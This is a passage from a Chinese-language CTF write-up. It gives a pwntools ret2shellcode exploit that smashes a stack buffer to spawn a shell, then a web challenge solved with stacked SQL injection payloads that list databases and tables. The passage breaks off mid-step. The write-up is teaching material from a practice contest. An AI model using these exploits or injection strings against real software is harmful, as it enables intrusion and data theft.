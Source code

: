 ```win```环境下拖进```IDA```进行分析
接下来就是`ret2shellcode`的：
#### `ret2shellcode`修正过程：
- **在`rsp`最终指向的地址放上我们待执行的`shellcode`**

- **由于长度不够，我们可以把`getshell`的`shellcode`放在读入的字符串的最开始的地方，再通过汇编指令进行跳转**
- **在`rsp`所指向的位置覆盖上`shellcode`，改变`rsp`的值使其指向`getshell`的`shellcode`并再次进行跳转，完成`getshell`**

那么`payload`就很容易构造出来了：

```python

context.arch = 'amd64'
sc1 = asm(shellcraft.sh())
sc2 = asm('sub rsp,56')//48字节的字符串+8字节的rsp，跳回开头
sc3 = asm('jmp rsp')
elf = ELF('hello')
payload = sc1 + b'a'*(56-len(sc1)) + p64(elf.symbols['bd']) + sc2 + sc3
```
![image.png](https://i.loli.net/2020/05/18/4ylt13zbIZ2LXfE.png)
![image.png](https://i.loli.net/2020/05/11/DCm7Wv6HMOnVLja.png)

## Web

### id_wife | Author: luoqi@n

<img src="https://i.loli.net/2020/05/16/gYQKdLw645feHW3.png" alt="image-20200516102439823.png" style="zoom:50%;" />

这个还真挺好玩的，把认识的师傅id都输了一遍，直到我把自己的id输了进去（草

这里拿小sad举例：

![image-20200516105810838.png](https://i.loli.net/2020/05/16/EtImALgT82Oeznq.png)

看见这个，我立刻想到了强网杯的随便注（其实找了半天），因为那道题用到了堆叠注入的知识点，所以我就试了一下

```
sad'); show databases;
```

![image-20200516110446026.png](https://i.loli.net/2020/05/16/YUsGpLbv8QtgiNR.png)

成了，再试一下查询表

```
sad'); show tables;
```

![image-20200516110244132.png](https://i.loli.net/2020/05/16/N7hIaBu3ymOJ5E8.png)

这个看起来这么臭的表一定有问题（确信

这里我用到了handler，这条语句使我们能够一行一行的浏览一个表中的数据，所以：
